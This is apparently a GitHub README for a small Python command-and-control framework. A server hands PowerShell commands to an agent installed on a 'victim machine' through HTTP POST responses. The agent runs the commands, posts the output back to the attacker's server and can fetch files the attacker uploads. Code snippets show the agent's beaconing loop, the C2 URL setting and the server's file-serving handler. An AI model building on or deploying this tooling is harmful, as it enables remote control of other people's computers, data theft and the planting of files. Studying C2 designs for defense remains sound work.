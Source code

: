 # pyc2-c2overPOSTresponse

This project is still under development. This is a simple C2 framework that allows you to run Powershell commands in HTTP responses. 

It works as follows: 
- Run server.py to start a http server
- Run agent.py to send a POST request
- The server sesponds to the request with a powershell command that is ran by agent.py
- agent.py sends another POST request after the specified time with the command response
- I am working on a mechanism to allow the attacker to send a different response but for now it's a loop

The framework also alows the attacker to upload a file to the victim by sending a powershell command that would send a HTTP get request to the server. 

## Installation

Download the .py files and run them. 

## Usage

### Configure Agent.py

Agent.py needs to be installed and ran on the victim machine. Provide the C2 url as shown below.

```
    url = "http://localhost:8080"  # Replace your C2 URL

```

The http requests are sent in time intervals. You can set this in Agent.py as well. 

```
output = 'No command Ran'
    while True:
        command_to_run = http_sender(output)
        if command_to_run:
            output = run_powershell_command(command_to_run) 
        # Sleep for a specified ammount of time (10 seconds) before sending the next request   
        time.sleep(10)  
        count =+ 1
```

Each HTTP POST request will require you to enter a desired command from the server side that will be sent in the HTTP response message body

### Configure Server.py

Configure the host and port you wish to run the C2 server on 

```
host = "localhost"
port = 8080
```
Specify where you want to save the command output logs

```
        # Append the message body to a text file
        with open('received_messages.txt', 'a') as file:
            file.write(message_body + '\n')
```

Specify the directory of the file you would like to upload using HTTP GET

```
       def do_GET(self):
        # Define the path of the file you would like to upload to the victim machine
        file_path = "path/to/your/file.txt"
```

## Summarized UML Sequence Diagram 

<img width="465" alt="image" src="https://github.com/dewardvide/pyc2-c2overPOSTresponse/assets/91884298/ff5801a8-8a8f-4f92-af0e-44bffb69c7f5">

## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://choosealicense.com/licenses/mit/)
